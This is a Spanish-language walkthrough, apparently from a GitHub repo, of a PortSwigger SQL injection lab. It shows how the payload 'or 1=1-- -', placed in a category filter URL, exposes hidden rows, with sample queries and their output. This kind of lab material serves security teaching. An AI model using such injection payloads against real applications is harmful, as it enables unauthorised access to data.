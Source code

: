 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

### Query original:

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `or 1 = 1-- -'` o `or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estpy pidiendo en la query que regrese el id=5 o todo donde sea 1=1 (true)... osea todo!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- -' and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Abrir laboratorio

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a56c4773-50c8-41b7-82b7-94631079ad1c)

2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0adf002604af55028177ed87004400b4.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/22e3492e-a7c7-4573-a966-73830aa681fe)



